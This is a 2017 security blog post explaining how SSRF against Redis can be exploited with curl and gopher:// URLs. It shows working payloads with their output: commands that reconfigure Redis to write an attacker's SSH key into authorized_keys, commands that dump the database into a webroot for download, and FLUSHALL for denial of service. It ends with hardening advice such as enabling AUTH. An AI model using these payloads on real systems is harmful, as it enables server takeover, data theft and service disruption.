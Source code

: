```yaml
---
layout: blog-single
title:  curl Based SSRF Exploits Against Redis
description: A look at what's possible with curl access to Redis via an SSRF vulnerability
date: August 14, 2017
image: /img/blog/ssrf-redis/curl-redis-ssrf-hacking.jpg
tags: [Security]
---
```


[SSRF (server side request forgery)](https://www.owasp.org/index.php/Server_Side_Request_Forgery) is a type of vulnerability where an attacker is able trick a remote server into sending unauthorized requests. SSRF opens the door to many types of undesirable things such as information disclosure, DoS and RCE. In this post, we'll take a look at the types of exploits that are achievable when we have access to curl Redis via SSRF.

<!-- excerpt_separator -->

### Getting Redis To Execute Our Commands

As documented in [a blog post titled "Trying to hack Redis via HTTP requests" by the French company, Agarri](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) if simply we curl Redis, it will interpret each line in the HTTP request as a command....

```
$ curl -v 127.0.0.1:6379 --max-time 1                                                                            ~
* Rebuilt URL to: 127.0.0.1:6379/
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:6379
> User-Agent: curl/7.52.1
> Accept: */*
>
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
* Operation timed out after 1002 milliseconds with 148 bytes received
* Curl_http_done: called premature == 1
* stopped the pause stream!
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 148 bytes received
```

> :bulb: **Tip:** Note the usage of the `max-time` flag here. It's important to understand that [by default Redis won't close the connection](https://redis.io/topics/clients#client-timeouts) and, [without specifying a timeout, neither will curl](https://curl.haxx.se/libcurl/c/CURLOPT_TIMEOUT.html).

[Agarri's post](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) suggests that we can use HTTP request headers or the request POST body to send malicious payloads. While this sounds good in theory, I couldn't get it to work (if you see something I've done wrong let me know!)...

```
$ curl --trace-ascii /dev/stdout -X POST -H "Content-Type: text/plain" --data "CONFIG SET maxmemory 5" http://127.0.0.1:6379/ --max-time 1
Note: Unnecessary use of -X or --request, POST is already inferred.
== Info:   Trying 127.0.0.1...
== Info: TCP_NODELAY set
== Info: Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
=> Send header, 125 bytes (0x7d)
0000: POST / HTTP/1.1
0011: Host: 127.0.0.1:6379
0027: User-Agent: curl/7.52.1
0040: Accept: */*
004d: Content-Type: text/plain
0067: Content-Length: 22
007b:
=> Send data, 22 bytes (0x16)
0000: CONFIG SET maxmemory 5
== Info: upload completely sent off: 22 out of 22 bytes
<= Recv data, 29 bytes (0x1d)
0000: -ERR unknown command 'POST'
<= Recv data, 176 bytes (0xb0)
0000: -ERR unknown command 'Host:'
001e: -ERR unknown command 'User-Agent:'
0042: -ERR unknown command 'Accept:'
0062: -ERR unknown command 'Content-Type:'
0088: -ERR unknown command 'Content-Length:'
-ERR unknown command 'POST'
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Content-Type:'
-ERR unknown command 'Content-Length:'
== Info: Operation timed out after 1002 milliseconds with 205 bytes received
== Info: Curl_http_done: called premature == 1
== Info: stopped the pause stream!
== Info: Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 205 bytes received
$ redis-cli                                                                                                      ~
127.0.0.1:6379> config get maxmemory
1) "maxmemory"
2) "999999999999999"
127.0.0.1:6379>
```

Fortunately, there's another option. Using a trick I learned about in [an SSRF report to Imgur's bug bounty on hackerone](https://hackerone.com/reports/115748), we can send requests to Redis using [the Gopher protocol](https://en.wikipedia.org/wiki/Gopher_(protocol)). 

This is approach is likely more versatile than using the POST body or HTTP request headers in an SSRF scenario as it's more likely that we'll have complete control over the endpoint (including request protocol) than it is that we'll be able to force the HTTP request method, manipulate the post body, or manipulate request headers.

Here's what it would look like to get Redis to divulge its `maxmemory` configuration value.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20GET%20maxmemory --max-time 1                                      ~
*2
$9
maxmemory
$15
999999999999999
curl: (28) Operation timed out after 1002 milliseconds with 41 bytes received
```

### What Can We Do With It?

The ability to send commands to Redis opens the door to many nasty exploits. Here are a few...

#### Manipulation of the configuration values to upload a public key

This technique was outlined in [a blog post titled "A few things about Redis security" by Redis' creator Salvatore Sanfilippo (aka antirez)](http://antirez.com/news/96). If we know the the name of a user on the server, we could set the Redis' `dir` to that user's `.ssh/` directory and set the `dbfilename` to `authorized_keys`. We can use `%0D%0A` to issue multiple commands in a single request...

```
$ curl -v gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/home/mpchadwick/.ssh%0D%0ACONFIG%20SET%20dbfilename%20authorized_keys --max-time 1
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

Next we would use the `SET` command to get Redis to save our public key to its memory, and then finally issue a `SAVE` command to write the public key to the `authorized_keys` file.

This is pretty much game over as the attacker can now SSH directly to the server!

#### Manipulation of the `dir` configuration value to steal the database

With the ability to manipulate the `dir` value, another option would be to update the `dir` to a publicly accessible location (the webroot). For example if the the attacker could try `/var/www/html`,  the default webroot for Apache on most servers.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/var/www/html --max-time 1   
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

The attacker could then trigger another `SAVE` to place `dump.rdb` into the webroot and download the entire database. 

It's very likely that this will give them access to sensitive information such as customer PII (personally identifiable information), database connection credentials or credentials for external API services.

#### DoS

There are countless DoS opportunities with the ability to send arbitrary commands to the Redis instance. The first thing that springs to mind is the repeatedly send `FLUSHALL` commands, preventing Redis from ever effectively storing anything.

```
$ curl -v gopher://127.0.0.1:6379/_FLUSHALL --max-time 1                                                         ~
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

### Takeaways

As we can see, SSRF can quickly become fatal if the attacker is able to send requests to the Redis instance. In addition to being mindful of potential SSRF exploits within the application codebase during the code review process, it is not advisable to solely rely on network layer security to protect your Redis instance. [Redis' built in AUTH feature](https://redis.io/commands/auth) allows you require a password to speak to Redis which would require an additional layer of authentication against any potential attacker.
